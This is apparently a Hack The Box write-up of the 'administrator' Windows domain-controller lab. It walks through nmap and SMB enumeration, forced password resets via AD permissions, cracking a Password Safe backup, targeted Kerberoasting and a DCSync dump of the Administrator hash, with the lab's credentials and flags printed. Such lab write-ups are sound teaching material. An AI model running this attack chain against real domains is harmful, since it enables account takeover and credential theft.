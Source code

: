```yaml
---
layout: post
title: HTB - administrator
date: 2025-04-23 10:00 -0400
---
```


{{ 'administrator' | machine_img }}

# nmap
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2025-04-23 09:13 -04
Nmap scan report for 10.10.11.42
Host is up (0.16s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-23 20:13:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
60893/tcp open  msrpc         Microsoft Windows RPC
60896/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
60907/tcp open  msrpc         Microsoft Windows RPC
60912/tcp open  msrpc         Microsoft Windows RPC
60915/tcp open  msrpc         Microsoft Windows RPC
60934/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s
| smb2-time: 
|   date: 2025-04-23T20:14:40
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.76 seconds
```

# user
We start with some creds:
- Username: Olivia
- Password: ichliebedich

Ftp open is interesting.

There is a ADMIN$ share that looks interesting but we can't read that.
```bash
» netexec smb $(cat ip.txt) -u Olivia -p 'ichliebedich' --shares
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich
SMB         10.10.11.42     445    DC               [*] Enumerated shares
SMB         10.10.11.42     445    DC               Share           Permissions     Remark
SMB         10.10.11.42     445    DC               -----           -----------     ------
SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.42     445    DC               C$                              Default share
SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share
```

Let's look at writable ldap attrs for Olivia
```bash
» bloodyAD -u Olivia -p ichliebedich --host administrator.htb get writable --detail
```

Looks like it has a lot of writes on `Michael Williams`. Let's take a better look with bloodhound.

We can use `olivia` to get to `michael` and `michael` to get to `benjamin`.
![esc chain](/assets/img/administrator1.png)

```bash
» bloodyAD -k --host dc.administrator.htb -d administrator.htb set password Michael 'asdf1234$Ba'
» bloodyAD -u Michael -p 'asdf1234$Ba' --host administrator.htb set password Benjamin 'asdf1234$Ba
```

Michael has winrm but there isn't much in there.

Ftp accepts benjamin creds and there is a Backup.safe3 in there.

We can crack it with `hashcat ./Backup.psafe3 ~/wordlists/rockyou.txt -m 5200 -a 0`
- ./Backup.psafe3:tekieromucho

Then we use pwsafe to access it.
![vault1](/assets/img/administrator7.png)
![vault2](/assets/img/administrator6.png)

- emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
- emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
- alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw

emily is the only of the three with winrm access so lets focus on that.
```bash
*Evil-WinRM* PS C:\Users\emily\Documents> type ..\Desktop\user.txt
cd368971f88837d54608046d3a0eddee
```

# root
From here emily can change ethan password and ethan can use DCSync to get domain controller.
![emily to ethan](/assets/img/administrator3.png)

Could not change ethan password and could not figure out why so we going with targetedKerberoast:

```bash
targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
# $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*...
```

- ethan:limpbizkit

Now just DCSync.

```bash
secretsdump.py administrator.htb/ethan:limpbizkit@dc.administrator.htb -just-dc-user Administrator
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
```

```bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
ccf442a948304068163d5f8b2f8898aa
```
